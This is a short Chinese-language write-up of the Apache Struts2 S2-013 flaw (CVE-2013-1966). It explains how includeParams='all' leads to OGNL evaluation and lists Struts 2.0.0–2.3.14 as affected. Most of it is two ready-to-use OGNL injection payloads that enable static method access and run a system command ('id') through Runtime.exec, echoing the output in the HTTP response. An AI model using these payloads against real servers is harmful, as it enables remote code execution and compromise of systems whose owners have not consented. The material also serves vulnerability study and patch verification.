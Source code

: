 # （CVE-2013-1966）s2-013

## 一、漏洞简介

* struts 的标签中 s:a 和 s:url 都有一个 includeParams 属性
* none - URL中不包含任何参数（默认）
* get - 仅包含URL中的GET参数
* all - 在URL中包含GET和POST参数
* 当includeParams=all的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。
* 明明可以urldecode一下就知道params是啥了，但struts给OGNL解析了，就造成了任意代码执行

## 二、漏洞影响

Struts 2.0.0 - Struts 2.3.14

## 三、复现过程

### POC 就这2种poc

第一个光有回显

```java
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

```

```bash
${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}

```

